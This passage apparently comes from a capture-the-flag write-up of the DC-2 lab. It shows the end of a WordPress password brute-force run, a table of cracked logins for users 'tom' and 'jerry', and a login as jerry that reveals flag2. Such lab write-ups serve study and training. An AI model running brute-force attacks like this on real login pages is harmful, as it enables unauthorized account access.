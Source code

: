 ```jsx
  Brute Forcing 'jerry' Time: 00:00:10 <=================                                                   > (181 / 715) 25.31%  ETA: 00:00:32
  +----+-------+-------------+------------+
  | ID | Login | Name        | Password   |
  +----+-------+-------------+------------+
  | 1  | admin | admin       |            |
  | 2  | tom   | Tom Cat     | parturient |
  | 3  | jerry | Jerry Mouse | adipiscing |
  +----+-------+-------------+------------+

[+] Finished: Thu May 27 14:05:52 2021
[+] Elapsed time: 00:01:04
[+] Requests made: 1530
[+] Memory used: 20.09 MB
root@kali:~#
```

*Found Login and password*

*Login in [http://dc-2/wp-login.php](http://dc-2/wp-login.php) with user jerry and password adipiscing* 

![DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%206.png](DC%202%208bb533798f654b0da4c7877bde040ba6/Untitled%206.png)

*Found flag2. Flag2 is giving hint about another entry point.*
